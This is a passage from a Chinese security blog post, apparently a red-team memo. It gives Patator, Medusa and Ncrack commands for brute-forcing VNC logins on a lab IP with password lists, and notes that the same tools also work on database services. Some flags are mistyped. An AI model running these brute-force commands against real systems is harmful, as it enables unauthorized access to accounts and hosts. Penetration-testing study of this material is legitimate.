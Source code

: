 #### Patator

> **patator vnc_login host=192.168.0.6 password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!=‘Authentication failure’ –max-reteries 0 –x quit:code=0**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsV5zMCfcVSUBcDu8vEIUHdbSTsjV1xyD26kiaylaL629S8hD0iaBqMgyCw/640?wx_fmt=png)

#### Medusa

> **Medusa -h 192.168.0.6 –u root–P /root/Desktop/pass.txt –M vnc**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVAiaRWE7wSTVcK5856dckgGpCw74FyD4WLnzdq4BhyFH5X9W1ZTLhu4A/640?wx_fmt=png)

#### Ncrack

> **ncrack –v –U /root/Desktop/user.txt–P /root/Desktop/pass.txt 192.168.0.6:5900**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVNkXHUDddiboAjcvC28OVrbU3G3nrnHYhvSB3IObCxDfvsoPWO8z3fsw/640?wx_fmt=png)

### 总结

整体来看，这些工具可以对除了以上几种服务攻击之外，还可以对其他更多的服务进行攻击尝试，比如数据库服务中的 mssql、mysql、oracle 等，差异仅仅在于参数不同，这里主要做个备忘，以备不时之需，没啥技术含量，仅供参考。

![](https://mmbiz.qpic.cn/mmbiz_gif/sGfPWsuKAfeYwjJqZiawVOoPhFXUqypbLIMib9dGbe001zcXZuSsaIBqulE92WQKq1YGOv7POdTUux9yNZe0e3dA/640?wx_fmt=gif)

 ![](http://wx.qlogo.cn/finderhead/Q3auHgzwzM52neibQP42rLoUiaPOuaLeiaKmgd9W4LBC9OwGCjk3rYI7g/0) **信安之路** 红队训练营首期任务介绍 视频号